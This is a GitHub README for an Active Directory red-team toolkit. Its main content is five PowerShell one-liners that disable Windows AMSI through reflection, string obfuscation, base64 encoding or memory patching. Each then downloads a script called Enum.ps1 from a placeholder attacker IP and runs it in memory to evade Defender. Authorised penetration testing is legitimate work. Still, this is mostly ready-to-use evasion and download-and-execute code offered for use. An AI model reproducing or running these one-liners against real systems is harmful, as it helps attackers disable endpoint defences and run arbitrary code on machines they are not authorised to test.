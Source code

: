 # About the repo:
* You'll find many tools on the internet, however, in this repo you'll find tools that may help you in your AD Red Team activities

# Download as zip or clone it:
* git clone https://github.com/projectHULK/AD_Recon.git

# Import all modules oneliner: (Windows)
* Get-Module -ListAvailable | Import-Module

# As a good practice
* Create a powershell script which will bypass AMSI, load tools and run them in momory 'bypassing Defender'
* I have created Enum.ps1 which will download all the tools and run them 'Put your IP'. You can use the bellow oneliner to bypass AMSI, download Enum.ps1 and run the comands in memory:
* Option 1)
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
* Option 2)
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
*Option 3)
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
* Option 4)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX
* Option 5)
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://<Your IP>/Enum.ps1') | IEX

# Note:
* Some tools my require elevated privilege

# AD Road map:
* Coming Soon

